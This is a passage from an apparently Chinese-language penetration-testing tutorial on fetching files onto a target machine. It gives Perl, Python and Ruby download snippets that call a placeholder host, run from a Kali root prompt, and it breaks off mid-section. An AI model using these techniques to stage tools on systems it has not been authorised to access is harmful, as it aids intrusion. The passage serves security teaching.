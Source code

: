 C:>cscript test.vbs

以下四种语言都不是系统原生脚本，但是如果你的目标机器安装了这些语言，你就可以使用他们来下载文件。

### Perl File Download

Perl 是一门很吊的语言，使用它基本可以实现任何事情，用它实现文件下载也很简单。

```
#!/usr/bin/perl
use LWP::Simple;
getstore("http://domain/file", "file");

```

执行脚本文件是这样

```
root@kali:~# perl test.pl 
```

### Python File Download

Python 也是很受欢迎的主流脚本语言，代码清晰且简洁。

```
#!/usr/bin/python
import urllib2
u = urllib2.urlopen('http://domain/file')
localFile = open('local_file', 'w')
localFile.write(u.read())
localFile.close()

```

执行脚本文件是这样

```
root@kali:~# python test.py 
```

### Ruby File Download

Ruby 是一个面对对象的语言，Metasploit 框架就是用它来实现的，当然他也可以实现像下载文件这样的小任务。

```
#!/usr/bin/ruby
require 'net/http'
Net::HTTP.start("www.domain.com") { |http|
r = http.get("/file")
open("save_location", "wb") { |file|
file.write(r.body)
}
}

```

执行脚本文件是这样
